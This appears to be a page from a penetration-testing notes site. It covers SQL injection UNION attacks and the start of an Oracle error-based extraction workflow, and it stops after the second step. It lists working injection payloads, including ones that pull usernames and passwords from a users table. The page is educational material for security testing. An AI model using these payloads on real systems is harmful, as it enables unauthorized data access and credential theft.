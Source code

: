Some key requirements for a UNION attack is that the number of columns that are being appended to the bottom of the original result have to match. You can determine the number of columns of a table using a method described in [Determining the number of columns in a table](https://alipali737.github.io/pen-test-docs/Attacks/sql-injection/SQL%20Injection%20Cheatsheet.html#determining-the-number-of-columns-in-a-table)

More information can also be found on the [PortSwigger UNION Attacks](https://portswigger.net/web-security/sql-injection/union-attacks) page.

#### Append a blank table to the end of the list with NULL values
{% highlight sql %}
' UNION SELECT NULL,NULL,NULL--
{% endhighlight %}

#### Finding columns that have a useful data type
{% highlight sql %}
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
{% endhighlight %}

#### Retrieving information from another table
- For this you must make sure that you follow the appropriate number of columns needed for the UNION to work
- This also requires you to know the column names and table name for the data you wish to access
{% highlight sql %}
' UNION SELECT username, password FROM users--
{% endhighlight %}

#### Retrieving multiple values within a single column
- If you wish to return data that is more columns that the original query you can concatinate the data from the extracted table into a single column
- This could also be required if you only have limited columns that support the data type you require
{% highlight sql %}
' UNION SELECT username || '-' || password FROM users--
' UNION SELECT NULL,username || '-' || password FROM users--
{% endhighlight %}

## Error Based Extraction
- If an application simply just returns an error to the user, data could possibly be extracted. A simple workflow could go as follows:
### Oracle Based:
1. Try a simple error (this proves we can run SQL but fails because it wants a bool)
{% highlight SQL %}
' AND CAST((SELECT 1) AS int)--
{% endhighlight %}

2. Make it a bool condition (the error will no go away)
{% highlight SQL %}
' AND 1=CAST((SELECT 1) AS int)-- 
{% endhighlight %}
